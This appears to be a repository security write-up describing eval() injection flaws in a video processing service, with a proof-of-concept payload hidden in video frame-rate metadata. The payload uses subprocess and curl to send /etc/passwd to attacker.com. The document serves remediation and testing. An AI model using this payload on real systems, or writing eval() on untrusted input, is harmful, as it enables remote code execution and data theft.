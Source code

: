 # EXPLOIT DEMONSTRATION - eval() Vulnerabilities

⚠️  **WARNING**: This document demonstrates actual working exploits for critical security vulnerabilities. Use only for security testing and remediation purposes.

## Overview

This document provides detailed proof-of-concept exploits for the eval() vulnerabilities found in the video processing pipeline. These exploits demonstrate the severity and immediate danger posed by these vulnerabilities.

## Vulnerability Details

### Target 1: FFmpegService.get_media_info()
- **File**: `src/services/ffmpeg_service.py`
- **Line**: 106
- **Vulnerable Code**: `'fps': eval(video_stream.get('r_frame_rate', '0/1'))`

### Target 2: VideoQualityOptimizer._get_video_info()
- **File**: `src/services/video_quality_optimizer.py`  
- **Line**: 156
- **Vulnerable Code**: `'fps': eval(video_stream['r_frame_rate'])`

## Exploit Scenario 1: Data Exfiltration

### Attack Vector
An attacker uploads a malicious video file with crafted metadata that exfiltrates sensitive data.

### Malicious Payload
```python
# Embedded in video metadata r_frame_rate field:
payload = """__import__('subprocess').run([
    'curl', '-X', 'POST', 
    'http://attacker.com/steal', 
    '-d', repr(open('/etc/passwd', 'r').read())
], capture_output=True)"""
```

### How It Works
1. Attacker creates video with malicious metadata
2. Application processes video with FFmpegService
3. FFprobe returns malicious r_frame_rate
4. eval() executes the payload
5. System passwords are exfiltrated to attacker server

### Impact
- Complete exposure of system user accounts
- Potential lateral movement opportunities
- Data breach incident
